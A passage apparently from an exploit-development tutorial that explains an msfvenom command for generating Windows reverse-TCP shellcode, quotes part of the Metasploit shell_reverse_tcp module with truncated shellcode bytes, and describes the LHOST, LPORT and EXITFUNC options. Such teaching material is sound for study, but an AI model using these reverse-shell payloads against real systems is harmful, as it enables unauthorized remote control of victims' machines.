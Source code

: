 Wow, this is really some special code, let's go over it line by line:

- `msfvenom` is a binary that generated shellcode payloads. "shellcode" is the piece of code we want to get to run on the target using our exploit, because its the part that connects back to us to give us a shell.
- `-p windows/shell_reverse_tcp` selects the `windows/shell_reverse_tcp` payload. We can find the source code for this payload at `/usr/share/metasploit-framework/modules/payloads/singles/windows/shell_reverse_tcp.rb`:

  ```ruby
  # ...

  def initialize(info = {})
     super(merge_info(info,
        'Name'          => 'Windows Command Shell, Reverse TCP Inline',
        'Description'   => 'Connect back to attacker and spawn a command shell',
        'Author'        => [ 'vlad902', 'sf' ],
        'License'       => MSF_LICENSE,
        'Platform'      => 'win',
        'Arch'          => ARCH_X86,
        'Handler'       => Msf::Handler::ReverseTcp,
        'Session'       => Msf::Sessions::CommandShell,
        'Payload'       =>
        {
           'Offsets' =>
              {
              'LPORT'    => [ 197, 'n'    ],
              'LHOST'    => [ 190, 'ADDR' ],
              'EXITFUNC' => [ 294, 'V'    ],
              },
           'Payload' =>
              "\xFC\xE8\x82\x00\x00\x00\x60\x89\xE5\x31\xC0\x64\x8B\x50\x30\x8B" +
              "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x0F\xB7\x4A\x26\x31\xFF\xAC\x3C" +

              # ...

              "\x00\x53\xFF\xD5"
        }
        ))
  end
  end
  ```

  As you can see it defines 3 variables, which we will set next:

- `LHOST` is set to `self.lhost`
- `LPORT` is set to `self.lport`
- `EXITFUNC` is set to `thread`:
  | Option | What it does | When to use it |
  |------------|---------------------------------------------------------------|----------------------------------------------|
  | `process` | Terminates the **entire process** | Simple, but crashes the host app |
  | `thread` | Just exits the **current thread**, leaves the process running | Safer for exploits inside multi-threaded apps |
  | `seh` | Uses **Structured Exception Handling** to gracefully exit | Advanced, avoids hard crashes |
